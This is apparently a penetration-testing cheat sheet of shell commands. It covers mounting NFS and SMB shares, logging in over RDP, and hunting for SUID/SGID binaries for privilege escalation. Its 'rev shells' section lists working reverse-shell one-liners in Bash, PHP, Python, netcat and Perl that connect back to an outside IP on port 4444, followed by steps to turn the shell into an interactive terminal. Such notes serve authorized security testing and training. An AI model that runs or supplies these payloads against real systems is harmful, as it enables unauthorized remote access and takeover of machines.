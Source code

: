 ## mount nfs share
```bash
mount -t nfs -o vers=3 10.1.1.1:/home/ ~/home


mount -t nfs4 -o proto=tcp,port=2049 127.0.0.1:/srv/Share mountpoint
```

## mount smb share
```sh
sudo mount -t cifs //10.1.1.1/'sharename' /home -o rw,vers=1.0,dir_mode=0777,file_mode=0777,nounix
# or
sudo mount -t cifs -o vers=1.0 //10.11.1.136/'Sharename' sharemount
```

## login to windows machine in the network with proxychains

```bash
xfreerdp /u:admin /v:ip_address +clipboard
```

## find suid,sgid binaries

```bash
find / -perm -4000 -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
```

## find files based on group

```sh
find / -group adm ! -type d -exec ls -la {} \; 2>/dev/null
```

## rev shells

```sh
Bash	bash -i >& /dev/tcp/192.168.19.57/4444 0>&1
PHP	php -r '$sock=fsockopen("192.168.19.57",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
Python	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.19.57",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
NCv1	nc -e /bin/sh 192.168.19.57 4444
NCv2	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.19.57 4444 >/tmp/f
Perl	perl -e 'use Socket;$i="192.168.19.57";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Make the shell interactive by executing below commands:

```sh
python -c'import pty;pty.spawn("/bin/bash")'
[ctrl+z]
stty raw -echo
fg
export TERM=xterm-256color
export SHELL=bash
stty rows 26 columns 238
```
